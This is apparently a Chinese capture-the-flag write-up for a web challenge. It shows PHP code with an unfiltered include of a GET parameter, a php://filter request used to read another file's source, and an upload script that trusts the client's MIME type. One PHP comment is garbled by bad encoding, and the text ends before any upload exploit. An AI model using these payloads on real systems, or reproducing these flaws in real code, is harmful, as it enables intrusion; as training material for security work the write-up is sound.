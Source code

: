 # 1、web22

题目显示去upload文件.

先看hello.php代码:

```
<!--upload.php-->
<?php
error_reporting(0);
if(isset($_GET['file'])){
    include $_GET['file'];
  }
?>
```

可以看到有严重的文件包含





查看upload.php代码

GET /hello.php?file=php://filter/read=convert.base64-encode/resource=upload.php

<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8"/>
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1">
    <title>UPLOAD</title>
</head>
<body>	
<form action="" enctype="multipart/form-data" method="post" name="upload">
file:
<input type="file" name="file" /><br>
<input type="submit" value="upload" />
</form>
</body>
</html>
<?php
error_reporting(0);
if($_FILES['file']['type'] !== "image/jpeg")  #è¿éå¯¹ä¸ä¼ çæä»¶ç±»åè¿è¡å¤æ­ï¼å¦æä¸æ¯image/gifç±»åä¾¿è¿åéè¯¯ã
        {   
         echo "Sorry, we only allow uploading JPG images";
         exit;
         }
 $uploaddir = 'upload/';
 $uploadfile = $uploaddir . basename($_FILES['file']['name']);
 if (move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile))
     {
         echo "File is valid, and was successfully uploaded.\n";
         echo $uploadfile;
        } else {
             echo "File uploading failed.\n";
}
?>



